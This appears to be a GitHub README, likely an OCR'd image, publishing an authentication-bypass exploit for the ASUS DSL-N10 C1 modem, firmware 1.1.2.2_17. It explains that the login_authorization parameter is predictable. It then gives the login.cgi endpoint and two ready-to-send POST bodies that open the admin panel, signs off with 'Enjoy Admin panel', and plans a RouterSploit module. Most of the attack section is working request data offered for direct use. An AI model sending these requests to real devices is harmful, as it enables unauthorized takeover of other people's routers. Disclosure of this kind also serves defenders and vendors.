 # ASUS-DSL-N10 Authentication-Bypass

## Title: ASUS-DSL N10 1.1.2.2_17 - Authentication Bypass
Author: AmnBAN team  
Date: 2018-08-06  
Vendor Homepage: https://www.asus.com/Networking/DSLN10_C1_with_5dBi_antenna/  
Sofrware version: 1.1.2.2_17  
CVE: N/A
 
## 1. Description:
In ASUS-DSL N10 C1 modem Firmware Version 1.1.2.2_17 there is login_authorization 
parameter in post data, that use for authorization access to admin panel, 
the data of this parameter is not fully random and you can use old data 
or data of another device to access admin panel.
 
## 2. Proof of Concept:
Browse http://< Your Modem IP >/login.cgi
 
Send this post data:  
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=YWRtaW46MQ%3D%2D
 
Or this post data:  
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=FWRtaW46MQ%3D5D

Enjoy Admin panel

## links:
https://www.exploit-db.com/exploits/45201/

## TODO:
Develop [RouterSploit](https://github.com/threat9/routersploit)  module for this vulnerability.

